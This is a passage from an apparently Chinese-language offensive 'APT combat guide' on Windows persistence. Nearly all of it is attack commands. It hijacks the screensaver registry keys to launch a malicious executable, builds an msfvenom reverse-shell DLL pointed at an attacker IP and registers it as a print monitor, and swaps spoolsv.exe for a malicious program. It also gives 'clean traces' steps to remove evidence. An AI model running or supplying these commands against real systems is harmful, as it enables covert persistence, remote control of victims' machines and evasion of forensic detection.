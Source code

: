 [desktop.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/desktop.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 desktop.cpp -o desktop.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```Bash
终端命令
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d 恶意可执行程序路径

PowerShell命令
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value '恶意可执行程序路径' -PropertyType String -Force
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveActive' -Value '1' -PropertyType String -Force
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaverTimeout' -Value '60' -PropertyType String -Force

查看当前配置的屏幕保护程序
Get-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE'

清理痕迹
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
```

### Windows打印后台处理程序服务

[monitor.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Per/monitor.cpp)

```Bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lwinspool

msfvenom -p windows/x64/shell_reverse_tcp LHOST=攻击者IP地址 LPORT=4444 -f dll > print.dll
```

```Bash
reg add "HKLM\System\CurrentControlSet\Control\Print\Monitors\Wolf" /v "Driver" /d "print.dll" /t REG_SZ
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Print\Monitors\Wolf" -Name "Driver"
```

```powershell
Stop-Service -Name Spooler -Force  //停止打印后台处理程序服务
Copy-Item -Path "C:\Windows\System32\spoolsv.exe" -Destination "C:\Windows\System32\spoolsv.exe.bak"  //备份原始的spoolsv.exe文件
Copy-Item -Path "恶意可执行程序" -Destination "C:\Windows\System32\spoolsv.exe" -Force  //替换spoolsv.exe为恶意程序
Start-Service -Name Spooler  //启动打印后台处理程序服务

清理痕迹
Stop-Service -Name Spooler -Force
Copy-Item -Path "C:\Windows\System32\spoolsv.exe.bak" -Destination "C:\Windows\System32\spoolsv.exe" -Force
Start-Service -Name Spooler
```
